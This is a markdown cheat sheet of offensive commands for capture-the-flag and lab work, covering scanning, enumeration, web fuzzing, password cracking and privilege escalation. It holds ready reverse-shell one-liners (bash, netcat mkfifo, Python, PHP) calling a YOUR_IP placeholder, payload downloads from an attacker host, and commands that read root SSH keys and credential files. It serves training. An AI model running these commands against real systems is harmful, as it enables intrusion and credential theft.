

# CTF Command Arsenal

> **Commands Organized by Use-Case — Syntax, Purpose & Applications**

---

> [!WARNING]
> **AUTHORIZED USE ONLY**: These commands are intended for CTF platforms (*HackTheBox, TryHackMe, VulnHub, PicoCTF*) and lab environments you own or are explicitly authorized to test. Replace `TARGET_IP` and `YOUR_IP` with your assigned lab addresses.

---

## Quick Navigation

1. [Reconnaissance & Host Discovery](#1--reconnaissance)
2. [Service Enumeration](#2--service-enumeration)
3. [Web Enumeration & Content Discovery](#3--web-enumeration)
4. [Vulnerability Discovery & Scanning](#4--vulnerability-discovery)
5. [Gaining Access & Reverse Shells](#5--gaining-access-shells)
6. [File & Steganography Forensics](#6--file--steganography-forensics)
7. [Password Cracking & Encoding](#7--password-cracking--encoding)
8. [Post-Exploitation & Loot Collection](#8--post-exploitation--loot)
9. [Privilege Escalation](#9--privilege-escalation)
10. [Execution Order & Methodology](#10--the-order-to-use-them-in)

---

## 1 — Reconnaissance

The first job on any box: find out what is running before touching it. Start broad, then scan deep on discovered ports.

| Command / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`nmap`** | Aggressive scan: OS, versions, default scripts, traceroute | `nmap -A -T4 TARGET_IP` | First look at any target |
| **`nmap -p-`** | Scan all 65,535 TCP ports (nothing missed) | `nmap -p- -T4 TARGET_IP` | When default scan seems incomplete |
| **`nmap -sC -sV`** | Default scripts + version detection on specific ports | `nmap -sC -sV -p22,80 TARGET_IP` | Deep dive on discovered ports |
| **`nmap -sU`** | UDP scan (DNS, SNMP, TFTP) | `sudo nmap -sU --top-ports 20 TARGET_IP` | When TCP looks empty or incomplete |
| **`nmap --script vuln`** | Run vulnerability-detection NSE scripts | `nmap -sV --script vuln TARGET_IP` | Fast known-CVE check |
| **`rustscan`** | High-speed port scanner (pipes into nmap) | `rustscan -a TARGET_IP -- -A` | Fast initial port sweeps |
| **`ping`** | Check if host is reachable via ICMP | `ping -c 4 TARGET_IP` | Confirm box is online |
| **`masscan`** | Internet-scale port scanner | `masscan -p1-65535 TARGET_IP --rate 1000` | Broad port discovery at high rate |

---

## 2 — Service Enumeration

Once ports are discovered, interrogate each service for shares, files, users, and versions.

| Service / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`enum4linux`** | All-in-one SMB / Windows enumeration | `enum4linux -a TARGET_IP` | SMB (`139`, `445`) exposed |
| **`smbclient`** | List & access SMB shares | `smbclient -L //TARGET_IP/ -N` | Browsing network shares |
| **`smbmap`** | Show SMB share permissions | `smbmap -H TARGET_IP` | Finding readable/writable shares |
| **`ftp`** | Connect to FTP (try anonymous login) | `ftp TARGET_IP` *(user: `anonymous`)* | FTP (`21`) open |
| **`showmount`** | List NFS exports | `showmount -e TARGET_IP` | NFS (`2049`) present |
| **`snmpwalk`** | Walk SNMP MIB tree for system information | `snmpwalk -v2c -c public TARGET_IP` | SNMP (`161/udp`) |
| **`dig / nslookup`** | DNS queries & zone transfer attempt | `dig axfr @TARGET_IP domain.htb` | DNS (`53`) open |
| **`ssh`** | Connect via SSH with credentials | `ssh user@TARGET_IP` | After recovering user credentials |
| **`mysql`** | Connect to MySQL database | `mysql -h TARGET_IP -u root -p` | MySQL (`3306`) accessible |
| **`redis-cli`** | Connect to Redis instance | `redis-cli -h TARGET_IP` | Redis (`6379`) open |

---

## 3 — Web Enumeration

Web services represent the most common entry point. Map everything the application does not explicitly link.

| Command / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`gobuster dir`** | Brute-force directories & files | `gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/dirb/common.txt` | Any HTTP/HTTPS service |
| **`gobuster (ext)`** | Directory scan with specific extensions | `gobuster dir -u URL -w LIST -x php,txt,bak,html` | Finding source & backup files |
| **`ffuf`** | Fast fuzzing of directories / params / vhosts | `ffuf -u http://TARGET_IP/FUZZ -w LIST` | Flexible fuzzing |
| **`feroxbuster`** | Recursive content discovery | `feroxbuster -u http://TARGET_IP` | Deep recursive enumeration |
| **`gobuster vhost`** | Discover virtual hosts (subdomains) | `gobuster vhost -u http://domain.htb -w LIST` | Name-based vhosts |
| **`ffuf (param)`** | Fuzz GET / POST parameters | `ffuf -u "http://IP/page?FUZZ=1" -w LIST` | Hidden parameter fuzzing |
| **`nikto`** | Web server vulnerability & misconfiguration scan | `nikto -h http://TARGET_IP` | Quick web weakness scan |
| **`whatweb`** | Fingerprint web technologies & CMS | `whatweb http://TARGET_IP` | Identifying CMS/frameworks |
| **`wpscan`** | WordPress-specific enumeration | `wpscan --url http://TARGET_IP --enumerate u` | WordPress installations |
| **`curl`** | Inspect HTTP headers & raw responses | `curl -i http://TARGET_IP` | Manual request inspection |

---

## 4 — Vulnerability Discovery

Turn identified version numbers and behaviors into exploit opportunities.

| Command / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`searchsploit`** | Search Exploit-DB offline repository | `searchsploit apache 2.4` | After determining service version |
| **`nmap --script vuln`** | NSE vulnerability scanner | `nmap --script vuln -p80 TARGET_IP` | Service-level vulnerability checks |
| **`nuclei`** | Template-based vulnerability scanner | `nuclei -u http://TARGET_IP` | Fast modern web vulnerability scanning |
| **`sqlmap`** | Automated SQL injection testing | `sqlmap -u "http://IP/p?id=1" --batch` | Suspected SQLi parameters |
| **`CVE Lookup`** | Map version to public CVEs | Search version + `"exploit"` | Any identified software version |

---

## 5 — Gaining Access (Shells)

Once code execution is achieved, catch a reverse shell and upgrade to an interactive TTY.

> **Listener Setup**: `nc -lvnp 4444`

| Technique | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- |
| **Bash Reverse Shell** | `bash -i >& /dev/tcp/YOUR_IP/4444 0>&1` | Target has standard bash |
| **Netcat mkfifo Shell** | `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|sh -i 2>&1\|nc YOUR_IP 4444 >/tmp/f` | Netcat without `-e` support |
| **Python PTY Shell** | `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("YOUR_IP",4444));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python available on target |
| **TTY Upgrade** | `Ctrl-Z` → `stty raw -echo; fg` → `export TERM=xterm` | Upgrading dumb shell to interactive |
| **PHP Reverse Shell** | `php -r '$s=fsockopen("YOUR_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` | PHP web apps / code injection |
| **Identity Check** | `whoami ; id` | Immediately after shell acquisition |

---

## 6 — File & Steganography Forensics

| Tool / Command | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`file`** | Identify true file type from magic bytes | `file suspicious.jpg` | Verifying file signatures |
| **`xxd`** | View / edit raw bytes (hex dump) | `xxd file.jpg \| head` | Inspecting / repairing file headers |
| **`exiftool`** | Read / extract metadata | `exiftool image.png` | Media files |
| **`binwalk`** | Detect and carve embedded files | `binwalk -e file.png` | Polyglot / concatenated files |
| **`strings`** | Extract readable ASCII strings | `strings file.bin \| less` | Binary files & memory dumps |
| **`steghide`** | Extract passphrase-protected data | `steghide extract -sf image.jpg` | Passphrase steganography |
| **`zsteg`** | Detect LSB steganography in PNG/BMP | `zsteg image.png` | PNG / BMP images |
| **`foremost`** | File carving by file signatures | `foremost -i file.dd` | Disk images & raw dumps |
| **`cat`** | Read file content | `cat users.txt` | Recovered text files |
| **`ls -la`** | List all files including hidden | `ls -la` | Spotting hidden configuration files |

> **Key Signatures**: PNG (`89 50 4E 47`), JPEG (`FF D8 FF`), GIF (`47 49 46 38`), PDF (`25 50 44 46`), ZIP (`50 4B 03 04`).

---

## 7 — Password Cracking & Encoding

| Tool / Command | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`hashcat`** | GPU-accelerated hash cracking | `hashcat -m 0 hash.txt rockyou.txt` | Fast hash cracking |
| **`john`** | CPU hash cracking | `john --wordlist=rockyou.txt hash.txt` | Cracking hashes / `*2john` outputs |
| **`hashid`** | Identify hash type | `hashid <hash>` | Unknown hash strings |
| **`zip2john`** | Extract hash from encrypted ZIP | `zip2john secret.zip > hash.txt` | Password-protected ZIP archives |
| **`ssh2john`** | Extract hash from encrypted SSH key | `ssh2john id_rsa > hash.txt` | Passphrase-protected private keys |
| **`hydra`** | Online network login brute-force | `hydra -l user -P rockyou.txt TARGET_IP ssh` | SSH, FTP, HTTP form brute-force |
| **`base64`** | Decode base64 strings | `echo <str> \| base64 -d` | Encoded payloads / tokens |
| **`xxd -r -p`** | Convert Hex to ASCII | `echo <hex> \| xxd -r -p` | Hex-encoded strings |
| **`CyberChef`** | Visual data encoding/decoding suite | `https://gchq.github.io/CyberChef` | Layered / complex encodings |

---

## 8 — Post-Exploitation & Loot

| Command / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`find (creds)`** | Search configuration files | `find / -name "*.conf" 2>/dev/null` | Hunting stored credentials |
| **`grep`** | Search text for sensitive terms | `grep -ri "password" /var/www 2>/dev/null` | Web configs and source files |
| **`cat flag`** | Read flag files | `cat user.txt ; cat /root/root.txt` | Collecting target flags |
| **`history`** | Review shell command history | `cat ~/.bash_history` | Recovering operator credentials |
| **`python http.server`** | Host local staging server | `python3 -m http.server 8000` | Staging tools on attacker box |
| **`wget / curl`** | Download tools to target | `wget http://YOUR_IP:8000/linpeas.sh` | File transfer to target |
| **`scp`** | Secure file copy over SSH | `scp file user@TARGET_IP:/tmp/` | Direct file transfer |
| **`nc transfer`** | Netcat raw file transfer | `nc -lvnp 9001 > out` / `nc YOUR_IP 9001 < file` | File transfer without HTTP/SSH |

---

## 9 — Privilege Escalation

| Check / Tool | What It Does | Syntax / Example | Where It Is Used |
| :--- | :--- | :--- | :--- |
| **`sudo -l`** | List sudo privileges | `sudo -l` | **FIRST check on every shell** |
| **`find SUID`** | Find SUID root binaries | `find / -perm -4000 -type f 2>/dev/null` | SUID privilege escalation |
| **`getcap`** | Inspect Linux file capabilities | `getcap -r / 2>/dev/null` | Capability abuse (`cap_setuid`) |
| **`crontab`** | Inspect scheduled cron jobs | `cat /etc/crontab ; ls -la /etc/cron.*` | Scheduled task / script abuse |
| **`linpeas`** | Automated privilege escalation scan | `./linpeas.sh` | Comprehensive system audit |
| **`uname -a`** | Kernel version & architecture | `uname -a ; cat /etc/os-release` | Checking known kernel exploits |
| **`GTFOBins`** | Binaries privilege escalation reference | `https://gtfobins.github.io` | Exploiting SUID / sudo binaries |
| **`find (writable)`** | Find root-owned writable files | `find / -writable -type f 2>/dev/null` | Overwriting root scripts/configs |
| **`sudo su`** | Spawn root shell | `sudo su` | After acquiring sudo rights |
| **`SSH Keys`** | Check for readable root SSH keys | `cat /root/.ssh/id_rsa` | Direct SSH root login |

---

## 10 — The Order to Use Them In

